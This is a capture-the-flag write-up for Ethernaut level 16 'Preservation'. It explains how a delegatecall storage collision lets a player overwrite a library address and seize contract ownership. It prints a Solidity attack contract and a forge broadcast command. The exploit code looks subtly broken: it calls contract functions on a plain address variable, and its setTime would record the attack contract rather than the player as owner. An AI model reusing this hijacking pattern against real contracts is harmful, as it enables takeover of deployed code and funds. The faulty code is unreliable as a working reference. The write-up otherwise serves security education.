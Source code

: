<div align="center">
<p align="left">(<a href="https://github.com/Pedrojok01/Ethernaut-Solutions?tab=readme-ov-file#solutions">back</a>)</p>

<img src="../assets/levels/16-preservation.webp" width="600px"/>
<br><br>
<h1><strong>Ethernaut Level 16 - Preservation</strong></h1>

</div>

## Table of Contents

- [Table of Contents](#table-of-contents)
- [Objectif](#objectif)
- [The hack](#the-hack)
- [Solution](#solution)
- [Takeaway](#takeaway)

## Objectif

<img src="../assets/requirements/16-preservation-requirements.webp" width="800px"/>

## The hack

Here, we have to become the new contract owner. Make sure you completed the level [6 - Delegation](../solutions/06_Delegation.md) before this one so you understand how `delegatecall` works.

After a quick first look, we can see that no function allows us to override the owner variable directly.
However, we know that a `delegatecall` executes the code of the called contract (`LibraryContract`), but with the storage of the calling contract (`Preservation`).
And since their storage doesn't match, we will be able to override some data and take ownership eventually. But, how?

Let's say we call the `setFirstTime` function with a uint, it will call the `setTime` function of the `LibraryContract` with the same uint via the `delegatecall`. The `setTime` function will set the `storedTime` variable to the uint at storage slot 0. But since the `delegatecall` is using the `Preservation` contract storage, it will override the `timeZone1Library` variable instead.

| Storage slot | Preservation     | LibraryContract | Malicious Contract |
| ------------ | ---------------- | --------------- | ------------------ |
| 0            | timeZone1Library | storedTime      | timeZone1Library   |
| 1            | timeZone2Library |                 | timeZone2Library   |
| 2            | owner            |                 | owner              |
| 3            | storedTime       |                 | storedTime         |

Storage collision happening at slot 0. A simple unit test would have easily revealed this!

Since we can override the `timeZone1Library` variable, we could override it with a malicious contract address containing our own version of the `setTime` function. So we can call the `setFirstTime` once with our malicious contract address to override the library address, then once more to delegate the call to our malicious contract and override the `owner` variable to our address.

## Solution

Here is our malicious contract with a custom `setTime` function, and... a storage identical to the `Preservation` contract to avoid any collision.

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

contract Disappearance {
    address public timeZone1Library;
    address public preservation;
    address public owner;

    constructor(address _preservation) {
        preservation = _preservation;
    }

    function attack() public {
        preservation.setFirstTime(uint256(uint160(address(this))));
        preservation.setFirstTime(uint256(uint160(msg.sender)));
        require(preservation.owner() == msg.sender, "Hack failed!");
    }

    function setTime(uint _time) public {
        owner = msg.sender;
    }
}
```

Then run the script with the following command:

```bash
forge script script/16_Preservation.s.sol:PoC --rpc-url sepolia --broadcast --verify --etherscan-api-key $ETHERSCAN_API_KEY --watch
```

## Takeaway

- Libraries should be stateless & use the `library` keyword.
- Avoid using `delegatecall` with user inputs. Or simply avoid using `delegatecall` at all.

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
